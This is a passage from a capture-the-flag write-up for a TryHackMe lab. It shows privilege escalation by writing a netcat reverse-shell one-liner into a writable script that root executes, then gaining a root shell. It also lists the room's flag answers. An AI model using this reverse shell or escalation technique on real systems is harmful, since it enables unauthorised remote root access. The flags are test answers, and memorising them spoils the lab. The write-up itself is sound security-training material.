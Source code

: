 - We don't have any permissions when it comes to both of these files, but the script actually executes `/etc/print.sh` which we have permissions to read and write.

  ```
  lennie@startup:~/scripts$ ls -l /etc/print.sh 
  -rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
  lennie@startup:~/scripts$ cat /etc/print.sh 
  #!/bin/bash
  echo "Done!"
  ```
  
- BINGO! Now we just upload another reverse shell, run a listener and then execute `/etc/print.sh` and we will have root access on our new connection. Let's do it!

  ```
  lennie@startup:~/scripts$ nano /etc/print.sh
  #!/bin/bash

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 1234 >/tmp/f

  lennie@startup:~/scripts$ bash /etc/print.sh 
  rm: remove write-protected fifo '/tmp/f'? n
  mkfifo: cannot create fifo '/tmp/f': File exists
  /etc/print.sh: line 3: /tmp/f: Permission denied

  nc -lvnp 1234
  listening on [any] 1234 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.72.19] 45186
  /bin/sh: 0: can't access tty; job control turned off
  # whoami
  root
  # cat /root/root.txt
  THM{f963aaa6a430f210222158ae15c3d76d}
  ```

---

## 🏁 Flags

- **Secret Spice Soup Recipe**: `love`
- **User Flag**: `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`
- **Root Flag**: `THM{f963aaa6a430f210222158ae15c3d76d}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much.`

- What did I learn?
  `Just practicing my enumeration and privilege escalation skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
